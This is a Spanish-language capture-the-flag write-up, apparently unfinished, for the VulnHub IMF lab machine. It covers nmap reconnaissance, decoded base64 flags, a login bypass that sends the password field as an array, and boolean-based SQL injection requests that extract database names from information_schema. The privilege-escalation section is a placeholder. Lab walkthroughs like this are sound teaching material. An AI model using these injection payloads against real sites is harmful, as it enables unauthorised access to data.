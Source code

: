 ```yaml
---
title: Plataforma VulnHub IMF
date: 2025-10-14
tags: [writeup, vulnhub, web-application-attack, sql-injection, ssh, privilege-escalation]
references:
  - https://www.vulnhub.com/entry/imf-1,162/
---
```


!cover.png

!INFO Informacion General

Este documento contiene un writeup detallado de cómo comprometer la máquina IMF en VulnHub. Se abordan técnicas de enumeración GIT, inyección SQL y escalada de privilegios mediante abuso de servicios locales.

---

TITLE Plataforma VulnHub IMF

---

TITLE Objetivo Principal

- Rootear la máquina virtual IMF.

---

TITLE Herramientas Utilizadas

| Herramienta | Función principal                      |
|-------------|--------------------------------------|
| arp-scan    | Descubrimiento de hosts               |
| nmap        | Escaneo de puertos y servicios       |
| tcping      | Verificación de conexiones TCP       |
| Burp Suite  | Interceptación y modificación HTTP   |
| VW Ware     | Plataforma de virtualización          |

---

!TIP Preparativos Personales

La máquina vulnerable fue ejecutada sobre VMware Workstation en Arch Linux. Las herramientas fueron instaladas desde repositorios oficiales o compiladas con proxy según necesidad.

---

TITLE Fase de Reconocimiento

Uso de arp-scan para descubrir IP:

arp-scan -I vmnet1 --localnet

IP descubierta: 172.16.23.129

Ping sin respuesta, se usó tcping para verificar conectividad, realizó compilación manual desde github.com/cloverstd/tcping.

Escaneo básico de puertos con nmap:

sudo nmap -p- --open -sS -T4 -vvv -n -Pn 172.16.23.129 -oG allports

Puerto abierto: 80

Escaneo detallado:

nmap -p80 -sCV 172.16.23.129 -oN targeted

Servicio detectado: Apache httpd 2.4.18 Ubuntu

---

TITLE Enumeración Web y Datos Encontrados

Se halló cadena en base64 en la página web:

ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==

Decodificada da:

flag2{aW1mYWRtaW5pc3RyYXRvcg==}

Texto interno decodificado: imfadministrator

En comentarios de la página se encontró otra flag en base64:

flag1{YWxsdGhlZmlsZXM=}

Resultado: allthefiles

Además, se identificaron posibles usuarios visibles en la interfaz.

---

TITLE Acceso a /imfadministrator

Formulario login:

<form method="POST" action="">
  <label>Username:</label><input type="text" name="user" value=""><br />
  <label>Password:</label><input type="password" name="pass" value=""><br />
  <input type="submit" value="Login">
</form>

Comentario indica contraseña "harcoded" (hard-coded).

---

TITLE Enumeración y Ataques SQL

Los usuarios existen en la base de datos, se interceptaron peticiones con Burp Suite. Modificación del campo password como array devolvió respuesta TRUE y tercera flag:

flag3{continueTOcms}

En el CMS se probó inyección SQL de tipo booleano con resultado:

GET /imfadministrator/cms.php?pagename=home'  -> error SQL mostrando directorio

Pruebas booleanas para determinar true/false:

GET /imfadministrator/cms.php?pagename=home'+and+'1'='1  -> TRUE (pantalla bienvenida)

GET /imfadministrator/cms.php?pagename=home'+and+'1'='2  -> FALSE (pantalla vacía)

---

TITLE Extracción de Información de Base de Datos

Confirmación del nombre de la base: mysql

Ejemplo payload para extracción de datos:

GET /imfadministrator/cms.php?pagename=home'+and+(select+schema_name+from+information_schema.schemata+limit+0,1)='mysql

Enumeración caracter por caracter para bases de datos restantes, por ejemplo:

GET /imfadministrator/cms.php?pagename=home'+and+(select+substring(schema_name,1,1)+from+information_schema.schemata+limit+2,1)='m

Respuesta TRUE.

---

TITLE Escalada de Privilegios

[Por completar con detalles de escalada de privilegios encontrados]

---

TITLE Conclusiones

[Por completar con resumen y aprendizajes clave]

---

!TIP Buenas Prácticas

[Por completar con recomendaciones]

---

!WARNING

Este documento es solo para fines educativos y legales. Se prohíbe su uso para actividades no autorizadas.


